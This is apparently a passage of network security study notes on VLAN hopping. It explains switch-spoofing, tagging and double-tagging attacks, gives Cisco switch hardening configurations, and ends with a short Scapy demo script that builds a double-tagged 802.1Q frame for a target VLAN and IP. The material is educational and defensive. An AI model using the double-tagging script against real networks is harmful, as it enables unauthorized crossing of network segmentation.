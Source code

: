       switch(config)# iterface gigabit 0/1
      switch(config-if)# switchport trunk encapsulation dot1q
      switch(config-if)# switchport mode trunk
      switch(config-if)# switchport nonegotiate
      ```

      - Tagging
        - This attack typically requires the attacker add the target 802.1Q tag manually to an Ethernet frame even though it is an access port. This process is normally done by the switch. The switch will receive the frame and forward it out the trunk port leading to the target without it needing to be routed. This method requires that the attacker and victim are separated by a trunk and success depends on the switch firmware being vulnerable.
      - Double Tagging
        - This attack works if the attacker knows what the "native VLAN" that is used on your organization. Typically VLAN 1 is used. All VLANs will be "tagged" with its corresponding VLAN. The Native VLAN however is intended for local network communication and is not tagged. Thus anything tagged for the native VLAN will be stripped off. The attacker will insert 2 tags into their frames. The first tag will be for the Native VLAN and the second tag will be for whatever VLAN he is trying to access. Upon receipt the switch will then remove the Native VLAN tag and will leave the second VLAN tag in tact. This method also requires that the attacker and victim be separated by a trunk and a vulnerable switch.
      ```
      switch(config)# vlan dot1q tag native
      switch(config)# interface fastethernet 1/10
      switch(config-if)# switchport mode access
      switch(config-if)# switchport nonegotiate
      switch(config-if)# switchport access vlan 10
      switch(config)# iterface gigabit 0/1
      switch(config-if)# switchport trunk encapsulation dot1q
      switch(config-if)# switchport mode trunk
      switch(config-if)# switchport nonegotiate
      switch(config-if)# switchport trunk native vlan 999
      ```
---
DEMO VLAN Hopping

Scapy Script to demonstrate VLAN Hopping
```
a=Ether()
a.dst="ff:ff:ff:ff:ff:ff"
a.src="01:02:03:aa:bb:cc"
a.type=0x8100           #VLAN Tag will Follow

b=Dot1Q()
b.vlan=1                #Insert the network's Native VLAN number
b.type=0x8100           #Another VLAN Tag will Follow

c=Dot1Q()
c.vlan=20               #Target VLAN
c.type=0x0800           #IPv4 or any other Ethertype that is encapsulated

d=IP()
d.proto=6               #specifies that TCP is encapsulated. Change to 1 for ICMP or 17 for UDP.
d.src="10.10.0.40"      #Any source IP
d.dst="172.16.82.106"   #Target IP

e=TCP()
e.sport=54321
e.dport=80

f="message"

a.show()
b.show()
```